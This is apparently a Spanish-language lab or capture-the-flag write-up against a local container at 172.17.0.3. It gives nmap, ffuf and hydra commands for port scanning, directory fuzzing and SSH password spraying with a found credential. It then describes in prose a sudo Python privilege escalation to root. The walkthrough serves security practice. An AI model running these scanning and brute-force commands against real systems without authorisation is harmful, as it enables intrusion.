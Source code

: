 Fecha: 07/09/2024

Empiezo usando nmap: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.3 -oN scan
```

Hago fuzzing para encontrar páginas. 

```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing
```

![](imágenes/Pasted%20image%2020240907214647.png)

En index.php encuentro un texto (JIFGHDS87GYDFIGD), que tiene pinta de contraseña:
![](imágenes/Pasted%20image%2020240907214844.png)

Uso hydra para buscar el propietario de esa contraseña:
```bash
hydra -p JIFGHDS87GYDFIGD  -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt ssh://172.17.0.3 -t 64
```

Lo primero que hago es mirar qué permisos tengo: 
![](imágenes/Pasted%20image%2020240907214602.png)

Puedo ejecutar un archivo con python como su, así que miro los permisos, los cambio, lo edito, y me convierto en root:
![](imágenes/Pasted%20image%2020240907214528.png)